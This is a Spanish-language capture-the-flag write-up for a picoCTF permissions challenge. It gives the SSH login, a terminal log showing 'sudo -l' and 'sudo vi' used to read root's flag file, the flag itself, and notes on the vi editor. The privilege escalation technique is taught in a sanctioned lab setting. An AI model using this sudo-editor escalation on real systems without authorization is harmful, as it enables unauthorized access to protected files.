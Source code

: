 ## Description
Can you read files in the root file?The system admin has provisioned an account for you on the main server: `ssh -p 51039 picoplayer@saturn.picoctf.net`Password: `NBD+zO8s4y`Can you login and read the root file?
## Solución
```shell
┌──(kali㉿kali)-[~/shared/notas-seguridad-redes2024/picoCTF/permissions]
└─$ ssh -p 50812 picoplayer@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:50812 ([13.59.203.175]:50812)' can't be established.
ED25519 key fingerprint is SHA256:HKm/Bw1C+mhj23vO8tXULrgLFYvzP6gQH2IwgUiQTok.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:8: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:50812' (ED25519) to the list of known hosts.
picoplayer@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

picoplayer@challenge:~$ ls
picoplayer@challenge:~$ cd /
picoplayer@challenge:/$ ls -la
total 0
drwxr-xr-x   1 root   root     51 Sep 18 03:41 .
drwxr-xr-x   1 root   root     51 Sep 18 03:41 ..
-rwxr-xr-x   1 root   root      0 Sep 18 03:41 .dockerenv
lrwxrwxrwx   1 root   root      7 Mar  8  2023 bin -> usr/bin
drwxr-xr-x   2 root   root      6 Apr 15  2020 boot
d---------   1 root   root     27 Aug  4  2023 challenge
drwxr-xr-x   5 root   root    340 Sep 18 03:41 dev
drwxr-xr-x   1 root   root     66 Sep 18 03:41 etc
drwxr-xr-x   1 root   root     24 Aug  4  2023 home
lrwxrwxrwx   1 root   root      7 Mar  8  2023 lib -> usr/lib
lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib32 -> usr/lib32
lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib64 -> usr/lib64
lrwxrwxrwx   1 root   root     10 Mar  8  2023 libx32 -> usr/libx32
drwxr-xr-x   2 root   root      6 Mar  8  2023 media
drwxr-xr-x   2 root   root      6 Mar  8  2023 mnt
drwxr-xr-x   2 root   root      6 Mar  8  2023 opt
dr-xr-xr-x 375 nobody nogroup   0 Sep 18 03:41 proc
drwx------   1 root   root     23 Aug  4  2023 root
drwxr-xr-x   1 root   root     54 Sep 18 03:42 run
lrwxrwxrwx   1 root   root      8 Mar  8  2023 sbin -> usr/sbin
drwxr-xr-x   2 root   root      6 Mar  8  2023 srv
dr-xr-xr-x  13 nobody nogroup   0 Sep 18 03:41 sys
drwxrwxrwt   1 root   root      6 Aug  4  2023 tmp
drwxr-xr-x   1 root   root     18 Mar  8  2023 usr
drwxr-xr-x   1 root   root     17 Mar  8  2023 var
picoplayer@challenge:/$ cd challenge/
-bash: cd: challenge/: Permission denied
picoplayer@challenge:/$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:/$ sudo vi


Press ENTER or type command to continue
total 12
drwx------ 1 root root   23 Aug  4  2023 .
drwxr-xr-x 1 root root   51 Sep 18 03:41 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile

Press ENTER or type command to continue
picoCTF{uS1ng_v1m_3dit0r_1cee9dcb}

Press ENTER or type command to continue

```
## Bandera
```shell
flag: picoCTF{uS1ng_v1m_3dit0r_1cee9dcb}
```
## Notas Adicionales
En este proceso se realizó una conexión SSH al servidor remoto `saturn.picoctf.net` utilizando el usuario `picoplayer` en el puerto `50812`. Tras autenticarte con contraseña, se exploraron los directorios del servidor con comandos como `ls` y `cd`, pero no se pudo acceder al directorio `challenge` debido a la falta de permisos. Luego, se utilizó el comando `sudo -l` para ver los privilegios de superusuario del usuario, lo que reveló que podía ejecutar el editor `vi` con privilegios elevados. Al usar `sudo vi`, se pudo acceder a archivos protegidos, como `.flag.txt`, que contenía la bandera picoCTF: `picoCTF{uS1ng_v1m_3dit0r_1cee9dcb}`

# comandos utilizados
-  `vi` es un editor de texto en la línea de comandos disponible en la mayoría de sistemas Unix y Linux. Es utilizado principalmente para crear, editar y visualizar archivos de texto. Algunas características clave de `vi` son:

	- **Edición de archivos en modo texto**: `vi` permite modificar archivos de texto como código fuente, scripts o configuraciones de sistema.
	- **Eficiencia**: `vi` tiene modos de operación (modo comando, modo inserción) que permiten realizar tareas de edición rápida usando solo el teclado.
	- **Disponibilidad universal**: Está disponible por defecto en prácticamente cualquier sistema Unix/Linux, por lo que es una herramienta confiable para administrar archivos en sistemas remotos o sin entorno gráfico.
## Referencias
- 